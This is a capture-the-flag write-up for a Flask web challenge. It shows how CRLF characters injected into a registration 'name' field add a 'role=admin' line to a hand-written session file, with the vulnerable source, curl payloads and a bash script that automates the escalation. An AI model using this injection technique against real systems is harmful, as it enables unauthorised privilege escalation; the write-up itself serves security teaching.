 # Day 15 - New New Always New

- Category: Web
- Difficulty: Easy / Medium
- Format: Whitebox

## Description

Santa sees OWASP 2025 coming very quickly, and is frightened by all the vulnerabilities on the web. He doesn't understand how this is possible, and besides, he does everything by hand, so there's no problem.

## Writeup

**TLDR: 2nd order CRLF in session, privilege escalation**

By reading the source code, we understand quite fast that the final goal is to reach /admin endpoint with admin privileges to get the flag :

```python
@app.route('/admin')
def admin():
    session_id = request.cookies.get('session_id')
    if not session_id:
        return jsonify(error="Not connected"), 401

    session_data = load_session(session_id)
    if not session_data:
        return jsonify(error="Invalid session"), 401

    if session_data['role'] != 'admin':
        return jsonify(error="Forbidden access, you are not an administrator."), 403

    try:
        with open('flag.txt') as f:
            flag = f.read().strip()
        return jsonify(success=f"Welcome back admin! Here is the flag: {flag}"), 200
    except FileNotFoundError:
        return jsonify(error="Flag file not found, contact admin."), 404
```

We also discover that session management is also totally implemented by hand. The system is based on a configuration file stored in ./sessions. Each file is represented by a UUIDv4, making it unpredictable.

```python
def create_session(email, name, role):
    session_id = str(uuid.uuid4())
    session_file = os.path.join(SESSION_DIR, f'session_{session_id}.conf')

    with open(session_file, 'w') as f:
        f.write(f'email={email}\n')
        f.write(f'role={role}\n')
        f.write(f'name={name}\n')

    return session_id

def load_session(session_id):
    if not re.match(r'^[0-9a-f]{8}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{12}$', session_id):
        return None

    session_file = os.path.join(SESSION_DIR, f'session_{session_id}.conf')
    if not os.path.exists(session_file):
        return None

    session_data = {}
    with open(session_file, 'r') as f:
        for line in f:
            key, value = line.strip().split('=')
            session_data[key] = value
    return session_data
```

The data stored in the session are the user's email, role and name. By default when register the default role is assigned to "user" :

```python
@app.route('/register', methods=['POST'])
def register():
    email = request.json.get('email')
    name = request.json.get('name')
    password = request.json.get('password')

    password_hash = generate_password_hash(password)

    user = User(email=email, name=name, role='user', password_hash=password_hash)
    db.session.add(user)
    db.session.commit()

    return jsonify(success="User registered successfully"), 201
```

It is during the login process that session is created and cookie returned to the user to authentication:

```python
@app.route('/login', methods=['POST'])
def login():
    email = request.json.get('email')
    password = request.json.get('password')

    user = User.query.filter_by(email=email).first()

    if user and check_password_hash(user.password_hash, password):
        session_id = create_session(user.email, user.name, user.role)
        response = make_response(jsonify(success="Logged in successfully"))
        response.set_cookie('session_id', session_id)
        return response
    
    return jsonify(error="Invalid credentials"), 401
```

Looking more closely at the contents of a session variable, we notice that the application injects '\n' to add new lines in the file.

First register an account :

```bash
curl http://localhost:8000/register -H 'Content-type: application/json' -d '{"email": "root@elweth.fr", "name": "elweth", "password": "Str0ng_Of_Course"}'
{
    "success":"User registered successfully"
}
```

Then login :

```bash
curl http://localhost:8000/login -H 'Content-type: application/json' -d '{"email": "root@elweth.fr", "password": "Str0ng_Of_Course"}' -i
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.9.20
Content-Type: application/json
Content-Length: 37
Set-Cookie: session_id=73152ff0-743f-4e63-9bbb-e92a0f9b44a0; Path=/
Connection: close

{
    "success":"Logged in successfully"
}
```

When jumping in the docker we can print the session file :

```bash
root@c5f9c0254f54:~# cat /app/sessions/session_73152ff0-743f-4e63-9bbb-e92a0f9b44a0.conf 
email=root@elweth.fr
role=user
name=elweth
```

As expected, our account is 'user' and can't access to the flag

```bash
curl http://localhost:8000/admin -H "Cookie: session_id=73152ff0-743f-4e63-9bbb-e92a0f9b44a0"
{
    "error":"Forbidden access, you are not an administrator."
}
```

If the application inject new lines in session file, what if we could do it? Let's try ..

```python
with open(session_file, 'w') as f:
    f.write(f'email={email}\n')
    f.write(f'role={role}\n')
    f.write(f'name={name}\n')
```

Register injecting new line in name :

```bash
curl http://localhost:8000/register -H 'Content-type: application/json' -d '{"email": "root2@elweth.fr", "name": "elweth\r\npouet=pouet", "password": "Str0ng_Of_Course"}'
```

After logged in, in the docker container we can oberve the behaviour expected, we managed to insert new variable in the config file :

```bash
root@c5f9c0254f54:~# cat /app/sessions/session_814268bf-eaf9-46f5-b157-9e7411db237e.conf 
email=root2@elweth.fr
role=user
name=elweth
pouet=pouet
```

We can confirm we have a 2nd order CRLF

To exploit it we will need to insert a new value to override the initial role 'user' to 'admin'.

Like many parsers the parser used here uses the last value of a key found in a file, like python json for example :

```python
>>> x = json.loads('{"role": "user", "user": "elweth", "user": "admin"}')
>>> x['user']
'admin'
```

So to exploit is we will create an account with CRLF to add `role=admin`

```bash
curl http://localhost:8000/register -H 'Content-type: application/json' -d '{"email": "root3@elweth.fr", "name": "elweth\r\nrole=admin", "password": "Str0ng_Of_Course"}'

{
    "success":"User registered successfully"
}
```

Then login to get a session cookie and fetch the /admin endpoint to get the flag!

```bash
curl http://localhost:8000/admin -H "Cookie: session_id=7726282a-11cb-42cd-82f3-d3b833a2b792"

{
    "success":"Welcome back admin! Here is the flag: RM{I_Thought_Th1s_VUlnerab1ility_W4s_N0t_Imp0rtant}"
}
```

The process can be automated with the following script :

```bash
email=$RANDOM
target=localhost
port=8000

# Register the user with the CRLF
curl -X POST "$target:$port/register" -H 'Content-type: application/json' -d '{"email": "'$email'", "name": "a\r\nrole=admin", "password": "a"}'

# Login
session_id=`curl -s -X POST "$target:$port/login" -H 'Content-type: application/json' -d '{"email": "'$email'", "password": "a"}' -i | grep session_id | cut -d'=' -f2 |cut -d';' -f1`

echo "Session id: $session_id"
# Check roles
curl -s "$target:$port/dashboard" -H "Cookie: session_id=$session_id" | grep 'admin' && echo 'Looks good ...'

# Flag

curl -s "$target:$port/admin" -H "Cookie: session_id=$session_id"
```